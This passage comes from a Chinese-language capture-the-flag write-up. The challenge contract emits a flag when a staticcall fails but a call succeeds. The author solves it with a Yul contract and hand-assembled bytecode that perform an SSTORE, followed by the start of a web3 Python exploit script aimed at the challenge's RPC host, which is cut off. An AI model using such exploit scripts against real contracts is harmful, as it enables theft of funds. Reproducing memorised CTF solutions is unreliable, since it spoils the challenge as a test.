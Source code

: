                 calldatacopy(0x00, 0x00, calldatasize())

                if eq(staticcall(0x5000, address(), 0, calldatasize(), 0, 0), 1) {
                    revert(0x00, 0x00)
                }

                if eq(call(0x5000, address(), 0, 0, calldatasize(), 0, 0), 0) {
                    revert(0x00, 0x00)
                }
            }
            emit SendFlag(msg.sender);
        }
    }
    ```

简单分析一下就是要用 0x5000 的 gas 调用一个自定义合约，要求 staticcall 调用会失败，call 会成功，并且合约字节码在 0x10 以内

直接在合约中执行一次 sstore 就可以让 staticcall 挂掉，yul 合约：

```solidity
object "DeleCaller" {
  code {
    sstore(0, 0)
    datacopy(0, dataoffset("Runtime"), datasize("Runtime"))
    return(0, datasize("Runtime"))
  }
  object "Runtime" {
    code {
      sstore(0, 0)
      stop()
    }
  }
}
```

或者手写汇编：

```asm
; 前面套一层 creationCode
PUSH1 0x00 ; 6000
PUSH1 0x00 ; 6000
SSTORE     ; 55
STOP       ; 00
```

???+ done "exp"
    ```python
    from web3 import Web3

    w3 = Web3(Web3.HTTPProvider('http://retr0.vip:8545'))

    hacker = '...'
    target = '...'
    privateKey = '...'

    def get_txn(src, dst, data, value=0, gas=0x200000):
        return {
            "chainId": 0x4bb,
            "from": src,
            "to": dst,
            "gasPrice": w3.toWei(1.1, 'gwei'),
            "gas": gas,
            "value": w3.toWei(value, 'ether'),
            "nonce": w3.eth.getTransactionCount(src),
            "data": data
        }
